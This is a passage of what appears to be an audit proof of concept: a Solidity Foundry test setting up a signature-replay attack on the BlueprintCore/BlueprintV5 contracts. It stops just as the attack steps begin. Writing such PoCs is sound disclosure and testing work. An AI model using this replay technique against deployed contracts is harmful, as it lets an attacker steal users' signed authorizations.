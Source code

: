 ### PoC

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";
import "../src/BlueprintV5.sol";
import "../src/EIP712.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract POC_BlueprintCore_EIP712SignatureReplay is Test {
    BlueprintV5 public blueprint;
    
    address public alice; // Victim
    address public attacker;
    address public protocol; // Protocol admin
    
    bytes32 public aliceProjectId = keccak256("Alice Project");
    bytes32 public attackerProjectId = keccak256("Attacker Project");
    string public base64Param = "base64EncodedParameters";
    string public serverURL = "app.crestal.network";
    
    uint256 private alicePrivateKey;
    
    function setUp() public {
        // Generate user addresses with known private keys
        alicePrivateKey = 0x12345;
        alice = vm.addr(alicePrivateKey);
        attacker = makeAddr("attacker");
        protocol = makeAddr("protocol");
        
        // Deploy BlueprintV5 implementation
        BlueprintV5 implementation = new BlueprintV5();
        
        // Deploy proxy with the implementation
        ERC1967Proxy proxy = new ERC1967Proxy(
            address(implementation),
            abi.encodeWithSelector(
                BlueprintV5.initialize.selector
            )
        );
        
        // Get the proxied BlueprintV5 (which inherits from BlueprintCore)
        blueprint = BlueprintV5(payable(address(proxy)));
        
        // Setup accounts
        vm.deal(alice, 10 ether);
        vm.deal(attacker, 10 ether);
        vm.deal(protocol, 10 ether);
    }
    
    function testSignatureReplayAttack() public {
        // SCENARIO: Alice signs a message to create a proposal for her project
        // The attacker intercepts this signature and uses it to create a deployment request
        // for a completely different project, effectively stealing Alice's authorization
        
        // Step 1: Alice creates a proposal request with signature
        vm.startPrank(alice);
        
```